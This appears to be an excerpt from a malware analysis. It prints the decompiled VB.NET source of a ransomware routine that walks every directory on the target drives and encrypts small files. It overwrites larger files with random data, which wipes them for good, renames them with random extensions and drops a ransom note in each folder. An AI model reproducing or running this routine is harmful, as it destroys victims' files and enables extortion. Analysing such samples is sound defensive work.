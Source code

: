 It will scan specific directories and iterates through all available drives on a system and applies a specific action to each, except for the drive "C:".

### encryptDirectory

```vbnet
Private Shared Sub encryptDirectory(location As String)
	Try
		Dim files As String() = Directory.GetFiles(location)
		Dim flag As Boolean = True
		For i As Integer = 0 To files.Length - 1
			Try
				Dim extension As String = Path.GetExtension(files(i))
				Dim fileName As String = Path.GetFileName(files(i))
				If Array.Exists(Of String)(Program.validExtensions, Function(E As String) E = extension.ToLower()) AndAlso fileName <> Program.droppedMessageTextbox Then
					Dim fileInfo As FileInfo = New FileInfo(files(i))
					fileInfo.Attributes = FileAttributes.Normal
					If fileInfo.Length < 2117152L Then
						If Program.encryptionAesRsa Then
							Program.EncryptFile(files(i))
						End If
					ElseIf fileInfo.Length > 200000000L Then
						Dim random As Random = New Random()
						Dim num As Integer = random.[Next](200000000, 300000000)
						Dim [string] As String = Encoding.UTF8.GetString(Program.random_bytes(num))
						File.WriteAllText(files(i), Program.randomEncode([string]))
						File.Move(files(i), files(i) + "." + Program.RandomStringForExtension(4))
					Else
						Dim string2 As String = Encoding.UTF8.GetString(Program.random_bytes(Convert.ToInt32(fileInfo.Length) / 4))
						File.WriteAllText(files(i), Program.randomEncode(string2))
						File.Move(files(i), files(i) + "." + Program.RandomStringForExtension(4))
					End If
					If flag Then
						flag = False
						File.WriteAllLines(location + "/" + Program.droppedMessageTextbox, Program.messages)
					End If
				End If
			Catch
			End Try
		Next
		Dim directories As String() = Directory.GetDirectories(location)
		For j As Integer = 0 To directories.Length - 1
			Program.encryptDirectory(directories(j))
		Next
	Catch ex As Exception
	End Try
End Sub
```
